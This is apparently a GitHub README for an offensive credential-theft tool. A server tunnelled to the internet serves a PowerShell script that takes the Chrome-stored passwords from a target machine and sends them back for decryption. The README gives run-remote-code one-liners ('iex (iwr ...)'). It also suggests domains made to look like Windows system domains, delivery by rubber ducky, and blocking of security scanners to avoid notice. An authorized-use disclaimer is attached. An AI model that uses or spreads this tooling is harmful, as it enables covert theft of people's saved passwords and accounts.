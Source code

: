 # Browser Credential Collector

A tool designed to securely collect and decrypt stored browser credentials from remote systems. This tool helps security professionals and system administrators assess password security and demonstrate how easily browser-stored credentials can be retrieved.

1. It will connect to a serveo tunnel allowing it to be accessable via the internet
2. Customizes a unique useragent per user request to ensure it isn't spammed
3. Decrypts the passwords locally
4. Every time you re-run the script it will get you a new Serveo URL such as https://28t8t8hgjh832h8hhoigi242ogn.serveo.net but the same one can be used many times until you stop the script from running.

   If you have a custom domain, consider something like WindowsSys.Tools - this way you can create a catch all subdomain and customize it per engagement.

```
iex (iwr WindowsSys.Tools)
iex (iwr System32.Windows.Sys.Tools)
```

<p align="center">
  <img src="https://github.com/pentestfunctions/chromium_passwords_local_collection/blob/main/images/sample.png">
</p>

## 🚨 Important Notice

This tool is intended for **AUTHORIZED USE ONLY**. Always obtain proper permissions before using on any system. Unauthorized use against systems you don't own or have explicit permission to test is illegal and unethical. Red team engagements and rubber duckies work awesome with this.

## 🔑 Features

- Securely collects stored browser credentials
- Automatically decrypts passwords using browser encryption keys
- Real-time monitoring dashboard
- Secure token-based authentication
- Protection against scanning and unauthorized access
- Public access via Serveo tunneling (optional)
- Rate limiting to prevent abuse

## 📋 Requirements

- Python 3.6+
- OpenSSH client (for Serveo tunneling)
- PyCryptodome (optional, for better decryption support)

## 💻 Quick Start

1. **Clone the repository**

```bash
git clone https://github.com/pentestfunctions/chromium_passwords_local_collection.git
cd chromium_passwords_local_collection
```

2. **Install optional dependencies**

```bash
pip install pycryptodome
```

3. **Run the server**

```bash
python3 credential_collector.py
```

4. **Execute the PowerShell script on target system**

```powershell
# Run this on the target machine
iex (iwr http://YOUR_IP:5000/script)
```

If you're using Serveo tunneling, the URL will be displayed in the console.

## 📚 How It Works

1. The server runs on your machine and generates unique tokens
2. When a target accesses the `/script` endpoint, they receive a customized PowerShell script with a unique token
3. The PowerShell script extracts stored browser credentials and securely sends them back to the server
4. The server decrypts and stores the credentials
5. All activity is monitored in real-time through the console dashboard

## 🔒 Security Features

- One-time tokens for script authentication
- Rate limiting to prevent abuse
- Scanner detection to block common vulnerability scanners
- IP blocking for suspicious activity
- All credentials stored locally in JSON format

## 📊 Understanding the Dashboard

The dashboard shows:
- Server information (local and public URLs)
- Collection statistics (credentials collected, success rates)
- Recent events
- Tunnel status (if using Serveo)
- List of collected credential files
- Blocked IPs

## ❓ Troubleshooting

**Error: "pycryptodome not found"**
- Install with: `pip install pycryptodome`

**Can't establish Serveo tunnel**
- Make sure SSH is installed and can connect to external services
- Try running with `--no-serveo` to use local network only

**No credentials collected**
- Verify the target system has Chrome/Chromium-based browsers installed
- Check that the PowerShell script is running with sufficient permissions
